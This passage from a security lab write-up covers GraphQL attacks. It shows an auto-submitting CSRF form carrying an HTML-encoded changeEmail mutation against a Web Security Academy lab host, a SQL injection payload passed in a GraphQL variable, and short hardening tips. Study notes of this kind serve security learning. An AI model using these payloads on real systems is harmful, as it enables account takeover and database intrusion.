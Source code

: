 ```html
query=mutation changeEmail($input: ChangeEmailInput!) {
   changeEmail(input: $input) {
       email
   }
}&variables={"input":{"email":"arst@mail"}}
```

- Pay attention that in the exploit server we have `Content-Type: text/html` so our payload shoud be HTML encoded:

```html
<html>
  <body>
    <form action="https://0aae0039048abc31810a8ea200560020.web-security-academy.net/graphql/v1" method="POST">
      <input type="hidden" name="query" value="&#109;&#117;&#116;&#97;&#116;&#105;&#111;&#110;&#32;&#99;&#104;&#97;&#110;&#103;&#101;&#69;&#109;&#97;&#105;&#108;&#40;&#36;&#105;&#110;&#112;&#117;&#116;&#58;&#32;&#67;&#104;&#97;&#110;&#103;&#101;&#69;&#109;&#97;&#105;&#108;&#73;&#110;&#112;&#117;&#116;&#33;&#41;&#32;&#123;&#13;&#10;&#32;&#32;&#32;&#99;&#104;&#97;&#110;&#103;&#101;&#69;&#109;&#97;&#105;&#108;&#40;&#105;&#110;&#112;&#117;&#116;&#58;&#32;&#36;&#105;&#110;&#112;&#117;&#116;&#41;&#32;&#123;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#101;&#109;&#97;&#105;&#108;&#13;&#10;&#32;&#32;&#32;&#125;&#13;&#10;&#125;"/>
      <input type="hidden" name="variables" value="{&quot;input&quot;:{&quot;email&quot;:&quot;victim@mail&quot;}}" />
      <input type="submit" value="Submit" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

#### SQL injection inside of GraphQL (One extra lab from TryHackMe)

While providing query(for example for login page):

```html
query ($username: String!) {
	users(username: $username) {
	    id
	    username
	    password
	}
}
```

 We also could abuse parameters(variables) like this:

```html
{
  "username":"test 'or '1'='1"
}
```

### Securing GraphQL
- Disable Introspection in Production
- Limit Query Depth and Complexity
- Use Parameterised Queries for Inputs